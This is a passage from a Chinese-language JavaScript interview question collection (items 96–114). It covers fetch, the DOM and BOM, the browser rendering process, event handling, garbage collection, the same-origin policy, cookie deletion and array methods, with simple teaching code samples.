- 客户端支持防止`CSRF/XSRF`

**fetch**

```js
try {
  let response = await fetch(url);
  let data = response.json();
  console.log(data);
} catch (e) {
  console.log('Oops, error', e);
}
```

优缺点：

- `fetcht`只对网络请求报错，对`400`，`500`都当做成功的请求，需要封装去处理
- `fetch`默认不会带`cookie`，需要添加配置项
- `fetch`不支持`abort`，不支持超时控制，使用`setTimeout`及`Promise.reject`的实现的超时控制并不能阻止请求过程继续在后台运行，造成了量的浪费
- `fetch`没有办法原生监测请求的进度，而 XHR 可以

### 96 JavaScript 的组成

JavaScript 由三部分组成：

1.  **ECMAScript（核心）**：ECMAScript 是 JavaScript 的基础，定义了语言的语法、类型、语句、关键字等。它规定了 JavaScript 的基本语法、数据类型、函数、运算符、控制流等核心特性，并提供了对数组、对象、字符串、正则表达式等的操作方法和功能。ECMAScript 的版本以 ES6（ES2015）为基准，随着时间的推移，新版本的 ECMAScript 引入了更多的语言特性和功能。
2.  **DOM（文档对象模型）**：DOM 是一种表示和操作 HTML、XML 文档的接口。它定义了文档的结构、属性和方法，允许开发者通过 JavaScript 来访问和修改网页的内容、结构和样式。DOM 将文档表示为一个树形结构，其中每个节点代表文档中的一个元素、属性、文本等。开发者可以使用 DOM 提供的 API 对这些节点进行增删改查操作，实现动态更新和交互效果。
3.  **BOM（浏览器对象模型）**：BOM 是一种提供了与浏览器窗口进行交互的接口。它提供了访问浏览器窗口、处理窗口尺寸、导航历史、处理 Cookie、发送 HTTP 请求等功能。BOM 中的对象包括`window`、`navigator`、`location`、`history`、`screen`等，开发者可以使用这些对象来控制浏览器的行为和获取相关信息。

这三部分共同构成了 JavaScript 的整体，使其成为一种强大的编程语言，能够在网页中实现丰富的交互和动态效果。

### 97 检测浏览器版本有哪些方式？

检测浏览器版本可以使用以下几种方式：

1.  **使用`navigator.userAgent`**：通过检查`navigator.userAgent`属性，可以获取包含了浏览器相关信息的用户代理字符串。可以根据用户代理字符串中的特定关键字或标识符来确定浏览器的类型和版本。例如，使用`UA.toLowerCase().indexOf('chrome')`可以检测是否为 Chrome 浏览器。
2.  **使用`window`对象的成员**：根据浏览器的不同，`window`对象的成员可能会有所差异。可以通过检查特定的`window`对象成员是否存在来确定浏览器的类型和版本。例如，通过检查`'ActiveXObject' in window`可以判断是否为 IE 浏览器。
3.  **使用现成的 JavaScript 库或框架**：有一些专门用于检测浏览器类型和版本的 JavaScript 库或框架，如`Bowser`、`Platform.js`等。这些库提供了简单易用的 API，可以方便地获取浏览器信息。

需要注意的是，检测浏览器版本可能会受到用户代理字符串的伪造或篡改，因此并不是一种绝对可靠的方法。在实际应用中，最好结合多种方式进行浏览器版本的检测，以增加准确性和可靠性。

### 98 介绍 JS 有哪些内置对象

当提到 JavaScript 的内置对象时，以下是一些常见的和全面的内置对象的列表：

1.  **基本数据类型封装对象**：

- `Object`：用于创建对象的基类。
- `Array`：用于创建和操作数组的对象。
- `Boolean`：表示布尔值的对象，包括`true`和`false`。
- `Number`：表示数字的对象，可以进行数值操作和转换。
- `String`：表示字符串的对象，提供了字符串操作和处理的方法。
- `BigInt`：表示任意精度整数的对象，用于处理超出`Number`范围的整数。

2.  **功能类对象**：

- `Function`：用于定义和调用函数的对象。
- `Date`：用于处理日期和时间的对象。
- `RegExp`：用于进行正则表达式匹配和操作的对象。
- `Error`：表示错误的对象，用于抛出和处理异常。
- `Math`：提供了各种数学运算的方法和常量。

3.  **集合类对象**：

- `Set`：表示一组唯一值的集合。
- `Map`：提供了键值对的数据结构，可以使用任何数据类型作为键。
- `WeakSet`：类似于`Set`，但只能存储对象引用，并且不会阻止垃圾回收。
- `WeakMap`：类似于`Map`，但只能使用对象作为键，并且不会阻止垃圾回收。

4.  **其他对象**：

- `Symbol`：表示唯一标识符的数据类型，用于创建对象的属性键。
- `Promise`：用于处理异步操作的对象，提供了更好的处理异步任务的方式。
- `Proxy`：用于创建对象的代理，可以拦截并自定义对象的操作。
- `Reflect`：提供了一组静态方法，用于操作对象的属性和方法。
- `JSON`：用于解析和序列化 JSON 数据的对象。

这只是一些常见的内置对象，JavaScript 还有许多其他内置对象和全局函数，用于处理各种类型的数据和操作。根据不同的需求和场景，可以选择适合的内置对象来使用。

### 99 说几条写 JavaScript 的基本规范

以下是一些常见的 JavaScript 编码规范：

1.  使用一致的缩进：推荐使用四个空格进行缩进，而不是制表符。
2.  使用一致的代码风格：在代码中使用一致的花括号（大括号）风格，可以是\"K&R\"风格（花括号放在行尾）或\"Allman\"风格（花括号独占一行）。
3.  使用分号结束语句：在每条语句的末尾使用分号结束，这有助于避免意外的错误。
4.  声明变量和函数：在使用之前，先声明变量和函数，避免隐式的全局变量。
5.  命名约定：使用有意义且符合约定的变量和函数命名，采用驼峰命名法，首字母小写，构造函数使用大写字母开头，常量全大写。
6.  使用严格模式：在脚本或函数的开头使用严格模式（\'use
    strict\'），可以帮助捕获潜在的错误并使代码更加安全。

7.  编写清晰的注释：使用注释来解释代码的用途、思路或重要细节，有助于他人理解代码。
8.  格式化对象和数组：使用花括号`{}`来声明对象，使用方括号`[]`来声明数组，并且按照一定的格式排列其中的元素，提高可读性。
9.  使用单引号或双引号：可以选择使用单引号或双引号来表示字符串，但要保持一致性。
10. 避免使用全局变量：尽量避免使用全局变量，使用模块化的方式组织代码，减少命名冲突和意外的副作用。

这些规范有助于提高代码的可读性、可维护性和一致性，使团队协作更加顺畅，并降低代码出错的风险。在编写 JavaScript 代码时，遵循一致的编码规范是一个良好的实践。

### 100 如何编写高性能的 JavaScript

以下是一些编写高性能 JavaScript 的技巧：

1.  使用严格模式：在 JavaScript 代码中使用严格模式，可以帮助检测潜在的错误，并提高代码性能。
2.  将脚本放在底部：将 JavaScript 脚本放在 HTML 页面的底部，这样可以避免阻塞页面的渲染，提高页面加载速度。
3.  打包和压缩代码：将 JavaScript 脚本进行打包和压缩，减少网络请求和文件大小，提高加载速度。
4.  非阻塞下载：使用异步加载的方式下载 JavaScript 脚本，通过将脚本放在`<script>`标签的`async`或`defer`属性中，避免阻塞页面的渲染。
5.  减少全局变量的使用：尽量避免过多使用全局变量，使用局部变量来保存数据，减少作用域链的查找时间。
6.  优化循环和迭代：在循环和迭代过程中，尽量减少重复的计算和操作，将需要重复使用的值存储在局部变量中，避免重复访问对象成员。
7.  缓存 DOM 访问：在访问 DOM 节点时，尽量将访问结果缓存起来，避免重复查询 DOM 树，提高代码执行效率。
8.  避免使用 eval()和 Function()构造器：这些方法会动态编译和执行代码，对性能有一定的影响，尽量避免使用它们。
9.  使用直接量创建对象和数组：在创建对象和数组时，尽量使用直接量的方式，避免使用构造函数，这样可以减少额外的函数调用和内存分配。
10. 最小化重绘和回流：重绘（repaint）和回流（reflow）是页面渲染的过程，它们会消耗大量的计算资源，尽量避免频繁的重绘和回流，可以通过合并操作、使用 CSS 动画等方式来优化。
    当涉及到编写高性能的 JavaScript 代码时，还有一些其他的技巧可以考虑：

11. 减少对象成员嵌套：在访问对象的成员时，尽量减少多层嵌套，这样可以提高访问速度。例如，将`obj1.obj2.prop`改为`obj1Prop`。
12. 避免频繁的字符串操作：字符串操作比较耗费性能，尤其是在循环中频繁拼接字符串。可以使用数组或模板字符串来优化字符串操作。
13. 使用事件委托：对于需要监听多个子元素事件的情况，可以将事件监听器添加到它们的父元素上，通过事件冒泡机制来处理事件。这样可以减少事件监听器的数量，提高性能。
14. 避免频繁的重绘：如果需要对 DOM 进行多次修改，最好将这些修改操作放在一起，而不是分散在多个地方，这样可以减少重绘次数。
15. 使用局部作用域：将代码封装在函数或模块中，利用局部作用域来限制变量的作用范围，避免命名冲突和全局变量污染。
16. 使用合适的数据结构和算法：在处理大量数据或复杂逻辑时，选择合适的数据结构和算法可以提高代码的效率。了解不同数据结构和算法的特点，选择最佳的方案。
17. 节流和防抖：对于一些频繁触发的事件（如滚动、调整窗口大小等），可以使用节流和防抖的技术来限制事件的触发频率，减少不必要的计算和操作。
18. 使用性能分析工具：利用浏览器提供的性能分析工具（如 Chrome 的开发者工具）来检测和分析代码的性能瓶颈，找到需要优化的地方。
19. 避免使用过时的方法和特性：某些方法和特性可能已经过时或存在性能问题，尽量避免使用它们，使用最新的标准和 API 来编写代码。
20. 定期进行代码优化和重构：不断优化和重构代码，去除冗余和低效的部分，使代码保持简洁、高效和易于维护。

综合使用这些技巧，可以显著提高 JavaScript 代码的性能和执行效率。但需要注意的是，优化代码时应该根据具体情况进行评估和测试，避免过度优化导致代码可读性和可维护性的降低。

### 101 描述浏览器的渲染过程，DOM 树和渲染树的区别

**浏览器的渲染过程：**

1.  解析 HTML 构建 DOM（文档对象模型）树：浏览器将接收到的 HTML
    文档解析成一个树状结构，该结构被称为 DOM 树。DOM 树表示了 HTML
    文档的结构和内容。

2.  解析 CSS 构建 CSSOM（CSS 对象模型）树：浏览器将接收到的 CSS
    文件解析成一个树状结构，该结构被称为 CSSOM 树。CSSOM 树表示了 CSS
    样式规则的层级和规则。

3.  合并 DOM 树和 CSSOM 树生成渲染树（Render Tree）：浏览器将 DOM 树和
    CSSOM 树合并，生成一个渲染树（Render
    Tree）。渲染树只包含需要显示在页面上的节点，隐藏的节点（如
    head）和不可见的节点（如 display: none）不包含在渲染树中。

4.  布局（Layout）：渲染树中的每个节点都有对应的布局信息，浏览器根据这些布局信息计算节点在屏幕中的位置和大小，这个过程称为布局或回流（reflow）。
5.  绘制（Painting）：浏览器根据渲染树的布局信息和样式信息，将节点绘制到屏幕上，这个过程称为绘制或重绘（repaint）。

**DOM 树和渲染树的区别：**

- DOM 树（文档对象模型树）是由 HTML
  文档解析而来，它反映了文档的结构和内容，包括 HTML
  标签、文本节点和注释等。DOM 树中的每个节点都有其对应的 CSS
  样式规则。

- 渲染树（Render Tree）是由 DOM 树和 CSSOM
  树合并而成，它是用于显示在浏览器中的树状结构。渲染树只包含需要显示在页面上的节点，不包含隐藏的节点和不可见的节点。渲染树中的每个节点都有其对应的布局信息和样式信息，用于计算节点在屏幕中的位置和大小，并将节点绘制到屏幕上。

> 总结：DOM 树表示了 HTML
> 文档的结构和内容，而渲染树是为了将文档在浏览器中显示而构建的树结构。渲染树只包含需要显示的节点，并且每个节点都有对应的布局和样式信息，用于计算和绘制节点在屏幕上的位置和外观。

### 102 script 的位置是否会影响首屏显示时间

- `script` 的位置对首屏显示时间有影响。虽然浏览器在解析 HTML 生成 DOM
  过程中， `js` 文件的下载是并行的，不需要 DOM 处理到 `script`

  节点，但是脚本的执行会阻塞页面的解析和渲染。

- 当浏览器遇到 `script` 标签时，会暂停解析
  HTML，开始下载并执行脚本。只有脚本执行完毕后，浏览器才会继续解析和渲染页面。

- 如果 `script` 标签放在 `<head>`
  标签中，那么脚本的下载和执行会先于页面的渲染，这样会延迟首屏显示的开始时间。

- 为了提高首屏显示时间，一般建议将 `script` 标签放在 `<body>`
  标签底部，在大部分内容都已经显示出来后再加载和执行脚本，这样可以让页面尽快呈现给用户，提升用户体验。

- 另外，可以使用异步加载的方式（如将 `script` 标签添加 `async`
  属性）或延迟加载的方式（如将 `script` 标签添加 `defer`

  属性），来减少脚本对页面加载的阻塞影响。这样可以在不阻塞页面渲染的情况下加载和执行脚本，加快首屏显示的完成时间。

### 103 介绍 DOM 的发展

- `DOM`：文档对象模型（`Document Object Model`），定义了访问 HTML 和 XML 文档的标准，与编程语言及平台无关
- `DOM Level 0`：提供了查询和操作 Web 文档的内容 API。未形成标准，实现混乱。如：`document.forms['login']`
- `DOM Level 1`：W3C 提出标准化的 DOM，简化了对文档中任意部分的访问和操作。如：`JavaScript中的Document`对象
- `DOM Level 2`：原来 DOM 基础上扩充了鼠标事件等细分模块，增加了对 CSS 的支持。如：`getComputedStyle(elem, pseudo)`
- `DOM Level 3`：增加了 XPath 模块和加载与保存（`Load and Save`）模块。如：`XPathEvaluator`
- `DOM Level 4`：继续扩展了 DOM 标准，引入了一些新的接口和功能，如
  `MutationObserver` 用于监听 DOM 变动、 `Shadow DOM` 用于创建独立的
  DOM 子树等

### 104 介绍 DOM0，DOM2，DOM3 事件处理方式区别

- DOM0 级事件处理方式：通过直接给事件属性赋值的方式进行事件处理，例如
  `element.onclick = func` ;。这种方式只能为同一个事件属性赋一个处理函数，且无法进行事件捕获阶段的处理。取消事件处理需要将事件属性赋值为 `null`

      -   `btn.onclick = func;`
      -   `btn.onclick = null;`

- DOM2 级事件处理方式：引入了 `addEventListener` 和
  `removeEventListener`

  方法来注册和移除事件处理函数。通过使用该方式，可以为同一个事件属性添加多个处理函数，且可以在事件的捕获阶段或冒泡阶段进行处理。使用 `addEventListener`

  注册事件处理函数，使用 `removeEventListener` 移除事件处理函数

  - `btn.addEventListener('click', func, false);`
  - `btn.removeEventListener('click', func, false);`
  - `btn.attachEvent("onclick", func);`
  - `btn.detachEvent("onclick", func);`

- DOM3 级事件处理方式：引入了新的事件类型和接口，提供更多的事件处理选项。可以使用自定义的事件类型，并通过
  `eventUtil`

  等自定义的工具对象来添加和移除事件处理函数。DOM3 级事件处理方式还引入了事件的命名空间概念，允许对特定命名空间的事件进行处理

  - `eventUtil.addListener(input, "textInput", func);`
  - `eventUtil` 是自定义对象，`textInput` 是 DOM3 级事件

在事件处理过程中，事件会经历捕获阶段、目标阶段和冒泡阶段。捕获阶段从文档根节点开始，向下传递到触发事件的目标元素，然后进入目标阶段，最后冒泡阶段从目标元素向上冒泡到文档根节点。 `DOM2` 和 `DOM3` 级事件处理方式都支持捕获和冒泡阶段的处理，可以通过第三个参数
`useCapture` 来控制事件是在捕获阶段还是冒泡阶段触发。

> 需要注意的是，DOM2 和 DOM3 级事件处理方式的兼容性较好，而 DOM0 级事件处理方式在现代的开发中很少使用，推荐使用 DOM2 级或 DOM3 级事件处理方式。

### 105 区分什么是"客户区坐标"、"页面坐标"、"屏幕坐标"

- 客户区坐标：鼠标指针在可视区中的水平坐标(`clientX`)和垂直坐标(`clientY`)
- 页面坐标：鼠标指针在页面布局中的水平坐标(`pageX`)和垂直坐标(`pageY`)
- 屏幕坐标：设备物理屏幕的水平坐标(`screenX`)和垂直坐标(`screenY`)

```html
<!DOCTYPE html>
<html>
  <head>
    <style>
      body {
        margin: 0;
        height: 2000px;
      }

      #box {
        width: 200px;
        height: 200px;
        background-color: red;
        position: absolute;
        left: 100px;
        top: 100px;
      }
    </style>
  </head>

  <body>
    <div id="box"></div>

    <script>
      document.addEventListener('mousemove', function (event) {
        console.log('客户区坐标：', event.clientX, event.clientY);
        console.log('页面坐标：', event.pageX, event.pageY);
        console.log('屏幕坐标：', event.screenX, event.screenY);
      });
    </script>
  </body>
</html>
```

**如何获得一个 DOM 元素的绝对位置？**

- `elem.offsetLeft`：返回元素相对于其定位父级左侧的距离
- `elem.offsetTop`：返回元素相对于其定位父级顶部的距离
- `elem.getBoundingClientRect()`：返回一个`DOMRect`对象，包含一组描述边框的只读属性，单位像素

```html
<!DOCTYPE html>
<html>
  <head>
    <style>
      body {
        margin: 0;
        padding: 0;
      }

      #container {
        width: 500px;
        height: 500px;
        position: relative;
        border: 1px solid black;
      }

      #box {
        width: 100px;
        height: 100px;
        background-color: red;
        position: absolute;
        left: 200px;
        top: 200px;
      }
    </style>
  </head>

  <body>
    <div id="container">
      <div id="box"></div>
    </div>

    <script>
      var box = document.getElementById('box');

      var offsetLeft = box.offsetLeft;
      var offsetTop = box.offsetTop;
      console.log('offsetLeft:', offsetLeft);
      console.log('offsetTop:', offsetTop);

      var rect = box.getBoundingClientRect();
      console.log('rect:', rect);
      console.log('left:', rect.left);
      console.log('top:', rect.top);
    </script>
  </body>
</html>
```

### 106 Javascript 垃圾回收方法

正常情况下，现代的 JavaScript 引擎会使用标记清除（mark and
sweep）算法作为主要的垃圾回收方法。引用计数（reference
counting）在某些老旧的 JavaScript 引擎中可能会被使用。

**标记清除（mark and sweep）是 JavaScript
中最常见的垃圾回收算法，其工作原理如下：**

1.  垃圾回收器会在运行时给存储在内存中的所有变量加上标记。
2.  垃圾回收器会从根对象开始，递归遍历所有的引用，标记它们为"进入环境"。
3.  在遍历完成后，垃圾回收器会对未被标记的变量进行清除，即将其回收内存空间。
4.  被清除的内存空间将被重新分配给后续的变量使用。

```js
function foo() {
  var x = {
    name: 'poetry',
  };
  var y = {
    name: 'Jane',
  };

  // 循环引用，x 引用了 y，y 引用了 x
  x.ref = y;
  y.ref = x;

  // x 和 y 不再被使用，将被标记为垃圾
  x = null;
  y = null;

  // 垃圾回收器在适当的时机会清理循环引用的对象
}

// 调用函数触发垃圾回收
foo();
```

**引用计数（reference
counting）是一种简单的垃圾回收算法，其工作原理如下：**

1.  对于每个对象，引擎会维护一个引用计数器，用于记录当前有多少个引用指向该对象。
2.  当一个引用指向对象时，引用计数器加一；当一个引用不再指向对象时，引用计数器减一。
3.  当引用计数器为零时，说明该对象没有被引用，可以将其回收内存空间。
4.  引用计数算法容易出现循环引用的问题，即两个或多个对象互相引用，但没有被其他对象引用，导致引用计数器无法归零，造成内存泄漏。

值得注意的是，现代的 JavaScript
引擎往往会采用更高级的垃圾回收算法，如基于分代的垃圾回收和增量标记等，以提高垃圾回收的效率和性能。以上所述的标记清除和引用计数仅是简单的介绍，实际的垃圾回收算法比较复杂，并涉及到更多的优化和细节。

```js
// 引用计数无法处理循环引用问题，这里只作演示
function foo() {
  var x = {
    name: 'poetry',
  };
  var y = {
    name: 'Jane',
  };

  // x 和 y 引用计数均为 1
  var refCountX = 1;
  var refCountY = 1;

  // 循环引用，x 引用了 y，y 引用了 x
  x.ref = y;
  y.ref = x;

  // x 和 y 不再被使用，引用计数减一
  refCountX--;
  refCountY--;

  // 当引用计数为零时，垃圾回收器可以清理对象
  if (refCountX === 0) {
    // 清理 x 对象的内存
    x = null;
  }

  if (refCountY === 0) {
    // 清理 y 对象的内存
    y = null;
  }
}

// 调用函数触发垃圾回收
foo();
```

请注意，上述示例中的引用计数示例仅为演示目的，并未解决循环引用导致的内存泄漏问题。在实际开发中，为了避免内存泄漏，需要使用更高级的垃圾回收算法和技术，或者手动解除循环引用。

### 107 请解释一下 JavaScript 的同源策略

> 同源策略（Same-Origin
> Policy）是浏览器中一种重要的安全机制，用于限制来自不同源（ `协议、域名、端口` ）的脚本对当前文档的访问权限。同源策略的作用是保护用户的信息安全，防止恶意网站获取敏感数据或进行跨站攻击。

**同源策略限制了以下行为：**

1.  脚本访问跨源文档的 DOM：通过脚本在页面中嵌入的 iframe
    元素加载的跨源文档无法通过脚本访问其 DOM，除非目标文档明确允许。

2.  脚本读取跨源文档的内容：通过脚本在页面中嵌入的 iframe
    元素加载的跨源文档无法通过脚本读取其内容，包括读取属性、执行方法等。

3.  脚本发送跨源 AJAX 请求：脚本无法直接发送跨源的 AJAX
    请求，只能向同源的服务器发送请求。

4.  `Cookie`、`LocalStorage` 和 `IndexDB`
    的限制：跨源的脚本无法访问其他源的 `Cookie` 、 `LocalStorage` 或
    `IndexDB` 数据。

同源策略的存在使得浏览器可以更好地保护用户的隐私和安全。然而，也有一些场景需要进行跨域访问，例如使用
`JSONP` 、 `CORS` 、代理服务器等方式来实现跨域请求。

需要注意的是，同源策略仅在浏览器中执行，不会限制服务器之间的通信，服务器可以自由地进行跨域访问。

### 108 如何删除一个 cookie

删除一个 `Cookie` 可以通过以下几种方式实现：

**1. 将 Cookie 的过期时间设置为过去的时间：**

```js
var date = new Date();
date.setDate(date.getDate() - 1);
document.cookie = 'cookieName=; expires=' + date.toUTCString();
```

将 `cookieName` 替换为要删除的 `Cookie` 的名称。

**2. 使用 `expires` 参数设置过期时间：**

```js
document.cookie = 'cookieName=; expires=Thu, 01 Jan 1970 00:00:00 UTC';
```

同样，将 `cookieName` 替换为要删除的 `Cookie` 的名称。

**3. 使用 `max-age` 参数设置过期时间：**

```js
document.cookie = 'cookieName=; max-age=0';
```

同样，将 `cookieName` 替换为要删除的 `Cookie` 的名称。

请注意，删除 `Cookie` 时需要确保 `path` 和 `domain` 参数与要删除的
`Cookie` 的设置一致，以确保正确删除指定的 `Cookie`

### 109 页面编码和被请求的资源编码如果不一致如何处理

如果页面编码和被请求的资源编码不一致，可以采取以下处理方式：

1.  后端响应头设置 `charset`：在服务器端返回资源（例如 HTML 页面、CSS
    文件、JavaScript
    文件）时，在响应头中设置正确的字符编码，确保与页面编码一致。例如，在
    HTTP 头部中添加以下内容：

```
Content-Type: text/html; charset=utf-8

```

这样可以告诉浏览器使用 `UTF-8` 编码解析返回的资源。

2.  前端页面 `<meta>` 设置 `charset`：在 HTML 页面的 `<head>` 部分添加
    `<meta>`

    标签，并设置正确的字符编码，确保与被请求的资源编码一致。例如：

```html
<meta charset="utf-8" />
```

这样可以告诉浏览器使用 `UTF-8` 编码解析当前页面。

通过上述方式设置正确的字符编码，可以确保页面和被请求的资源在解析和显示时使用一致的编码，避免乱码等问题。需要注意的是，确保页面和资源的编码设置一致，并且字符编码在各个环节中正确传递和解析。

### 110 把 `<script>` 放在 `</body>` 之前和之后有什么区别？浏览器会如何解析它们？

将 `<script>` 放在 `</body>` 之前和之后的区别主要是在符合 HTML 标准的语法规则和浏览器的容错机制上，具体如下：

1.  **符合 HTML 标**：按照 HTML 标准规定，`<script>`标签应该放在`<body>`标签内，通常是放在`</body>`之前。将`<script>`放在`</body>`之后是不符合 HTML 标准的，属于语法错误。但是，现代浏览器通常会自动容错并解析这样的语法，不会出现明显的错误。
2.  **浏览器解析**：浏览器会解析并执行`<script>`标签中的 JavaScript 代码。无论`<script>`放在`</body>`之前还是之后，浏览器都会执行其中的代码。浏览器的容错机制会忽略`<script>`之前的`</body>`，视作`<script>`仍然在`<body>`内部。因此，从功能和效果上来说，两者没有区别。
3.  **服务器输出优化**：在一些情况下，省略`</body>`和`</html>`闭合标签可以减少服务器输出的内容，因为浏览器会自动补全这些标签。对于大型网站或需要优化响应速度的场景，这种优化可以略微减少传输的字节数。

需要注意的是，虽然现代浏览器对放置 `<script>` 标签的位置比较宽容，但为了遵循 HTML 标准和保持代码的可读性和可维护性，推荐将 `<script>` 标签放在 `</body>` 之前，符合语义和结构的要求。

### 111 JavaScript 中，调用函数有哪几种方式

在 JavaScript 中，调用函数有以下几种方式：

1.  方法调用模式：将函数作为对象的方法调用，使用点运算符来调用函数。

```js
obj.method(arg1, arg2);
```

2.  函数调用模式：直接调用函数，没有明确的接收者对象。

```js
func(arg1, arg2);
```

3.  构造器调用模式：使用`new`关键字调用函数作为构造器来创建对象实例。

```js
new Func(arg1, arg2);
```

4.  `call`/`apply`调用模式：使用`call`或`apply`方法来调用函数，并指定函数内部的`this`值，以及参数列表。

```js
func.call(obj, arg1, arg2);
func.apply(obj, [arg1, arg2]);
```

5.  `bind`调用模式：使用`bind`方法创建一个新函数，并指定新函数的`this`值，然后调用新函数。

```js
var newFunc = func.bind(obj);
newFunc(arg1, arg2);
```

这些不同的调用方式提供了灵活性和适用性，可以根据不同的场景选择合适的方式来调用函数。

### 112 列举一下 JavaScript 数组和对象有哪些原生方法？

**数组方法：**

- `arr.concat(arr1, arr2, arrn)`：连接多个数组并返回新数组。
- `arr.copyWithin(target, start, end)`：将数组的一部分复制到同一数组中的另一个位置。
- `arr.entries()`：返回一个包含数组键值对的迭代器对象。
- `arr.every(callbackFn, thisArg)`：测试数组中的所有元素是否都通过了指定函数的测试。
- `arr.fill(value, start, end)`：用静态值填充数组的一部分。
- `arr.filter(callbackFn, thisArg)`：创建一个新数组，其中包含通过指定函数筛选的所有元素。
- `arr.find(callbackFn, thisArg)`：返回数组中第一个满足测试函数的元素的值。
- `arr.findIndex(callbackFn, thisArg)`：返回数组中第一个满足测试函数的元素的索引。
- `arr.flat(depth)`：将多维数组展平为一维数组。
- `arr.flatMap(callbackFn, thisArg)`：首先使用映射函数映射每个元素，然后将结果展平为一维数组。
- `arr.forEach(callbackFn, thisArg)`：对数组中的每个元素执行指定函数。
- `arr.includes(searchElement, fromIndex)`：判断数组中是否包含指定元素。
- `arr.indexOf(searchElement, fromIndex)`：返回指定元素在数组中首次出现的索引。
- `arr.join(separator)`：将数组元素连接为一个字符串，并使用指定的分隔符。
- `arr.keys()`：返回一个包含数组键的迭代器对象。
- `arr.lastIndexOf(searchElement, fromIndex)`：返回指定元素在数组中最后一次出现的索引。
- `arr.map(callbackFn, thisArg)`：创建一个新数组，其中包含通过指定函数对每个元素进行处理后的结果。
- `arr.pop()`：移除并返回数组的最后一个元素。
- `arr.push(element1, element2, ..., elementN)`：向数组末尾添加一个或多个元素，并返回新的长度。
- `arr.reduce(callbackFn, initialValue)`：对数组中的所有元素执行指定的累积函数，返回累积结果。
- `arr.reduceRight(callbackFn, initialValue)`：对数组中的所有元素执行指定的累积函数（从右到左），返回累积结果。
- `arr.reverse()`：反转数组中元素的顺序。
- `arr.shift()`：移除并返回数组的第一个元素。
- `arr.slice(start, end)`：从数组中提取指定范围的元素，并返回一个新数组。
- `arr.some(callbackFn, thisArg)`：测试数组中的至少一个元素是否通过了指定函数的测试。
- `arr.sort(compareFunction)`：对数组元素进行排序，可以传入自定义的比较函数。
- `arr.splice(start, deleteCount, item1, item2, ...)`：从数组中添加/删除元素，并返回被删除的元素。
- `arr.toLocaleString()`：将数组中的元素转换为字符串，并返回该字符串。
- `arr.toString()`：将数组中的元素转换为字符串，并返回该字符串。
- `arr.unshift(element1, element2, ..., elementN)`：向数组开头添加一个或多个元素，并返回新的长度。
- `arr.values()`：返回一个包含数组值的迭代器对象。

**对象方法：**

- `Object.assign(target, ...sources)`：将一个或多个源对象的属性复制到目标对象，并返回目标对象。
- `Object.create(proto, [propertiesObject])`：使用指定的原型对象和属性创建一个新对象。
- `Object.defineProperties(obj, props)`：定义一个或多个对象的新属性或修改现有属性的配置。
- `Object.defineProperty(obj, prop, descriptor)`：定义一个新属性或修改现有属性的配置。
- `Object.entries(obj)`：返回一个包含对象自身可枚举属性的键值对数组。
- `Object.freeze(obj)`：冻结对象，使其属性不可修改。
- `Object.fromEntries(entries)`：将键值对列表转换为对象。
- `Object.getOwnPropertyDescriptor(obj, prop)`：返回对象属性的描述符。
- `Object.getOwnPropertyDescriptors(obj)`：返回对象所有属性的描述符。
- `Object.getOwnPropertyNames(obj)`：返回一个数组，包含对象自身的所有属性名称。
- `Object.getOwnPropertySymbols(obj)`：返回一个数组，包含对象自身的所有 Symbol 属性。
- `Object.getPrototypeOf(obj)`：返回指定对象的原型。
- `Object.is(value1, value2)`：判断两个值是否相同。
- `Object.isExtensible(obj)`：判断对象是否可扩展。
- `Object.isFrozen(obj)`：判断对象是否已被冻结。
- `Object.isSealed(obj)`：判断对象是否已被密封。
- `Object.keys(obj)`：返回一个数组，包含对象自身的所有可枚举属性名称。
- `Object.preventExtensions(obj)`：阻止对象扩展，使其不可添加新属性。
- `Object.seal(obj)`：将对象密封，使其属性不可添加、删除或配置。
- `Object.setPrototypeOf(obj, prototype)`：设置对象的原型。
- `Object.values(obj)`：返回一个包含对象自身可枚举属性的值的数组。

这些方法可以帮助我们在 JavaScript 中更方便地操作和处理数组和对象的数据。

### 113 Array.slice() 与 Array.splice() 的区别？

- `slice()`
  方法返回一个新数组，包含从原数组中指定的开始位置到结束位置（不包括结束位置）的元素，不会修改原数组。

- `splice()`
  方法通过删除或替换现有元素或者添加新元素来修改原数组。它会返回被删除的元素组成的数组。

```js
const fruits = ['apple', 'banana', 'orange', 'mango', 'kiwi'];

// 从索引 1 开始删除 2 个元素，并插入 'grape' 和 'pear'
const deletedFruits = fruits.splice(1, 2, 'grape', 'pear');

console.log(deletedFruits); // 输出: ['banana', 'orange']
console.log(fruits); // 输出: ['apple', 'grape', 'pear', 'mango', 'kiwi']
```

```js
const fruits = ['apple', 'banana', 'orange'];

// 在索引 1 的位置插入 'grape' 和 'kiwi'
fruits.splice(1, 0, 'grape', 'kiwi');

console.log(fruits); // 输出: ['apple', 'grape', 'kiwi', 'banana', 'orange']
```

**主要区别如下：**

- `slice()` 是纯粹的读取操作，不会对原数组进行修改，而 `splice()`

  是对数组进行操作，会修改原数组。

- `slice()`
  的参数是起始位置和结束位置，返回选定的元素组成的新数组。 `splice()`

  的参数是起始位置、删除的元素个数以及可选的插入元素，返回被删除的元素组成的新数组。

- `slice()` 的结束位置是不包括在选取范围内的，而 `splice()`

  中的删除元素个数是包括在操作范围内的。

- `slice()` 不会改变原数组的长度，而 `splice()` 可以改变原数组的长度。

总的来说， `slice()` 是用来提取数组中的一部分元素，不改变原数组，而
`splice()` 是用来操作数组，可以删除、替换或插入元素，会改变原数组。

```js
const fruits = ['apple', 'banana', 'orange', 'mango', 'kiwi'];

// 从索引 1 开始（包括索引 1），到索引 3 结束（不包括索引 3）
const slicedFruits = fruits.slice(1, 3);

console.log(slicedFruits); // 输出: ['banana', 'orange']
console.log(fruits); // 输出: ['apple', 'banana', 'orange', 'mango', 'kiwi']
```

### 114 MVVM

MVVM（Model-View-ViewModel）是一种软件架构模式，用于实现用户界面（UI）和业务逻辑的分离。它的设计目标是将界面的开发与后端的业务逻辑分离，使代码更易于理解、维护和测试。

在 MVVM 中，各个组成部分的职责如下：

- **Model（模型）**：表示应用程序的数据和业务逻辑。它负责数据的存储、检索和更新，并封装了与数据相关的操作和规则。
- **View（视图）**：展示用户界面，通常是由 UI 元素组成的。它是用户与应用程序进行交互的界面，负责将数据呈现给用户，并接收用户的输入。
- **ViewModel（视图模型）**：连接 View 和 Model，负责处理业务逻辑和数据的交互。它从 Model 中获取数据，并将数据转换为 View 可以理解和展示的格式。ViewModel 还负责监听 View 的变化，并根据用户的输入更新 Model 中的数据。

MVVM 的核心思想是数据绑定，通过双向绑定机制将 View 和 ViewModel 中的数据保持同步。当 ViewModel 中的数据发生变化时，View 会自动更新，反之亦然。这种数据驱动的方式使得开发者可以专注于业务逻辑的实现，而无需手动操作 DOM 元素来更新界面。

MVVM 的优势包括：

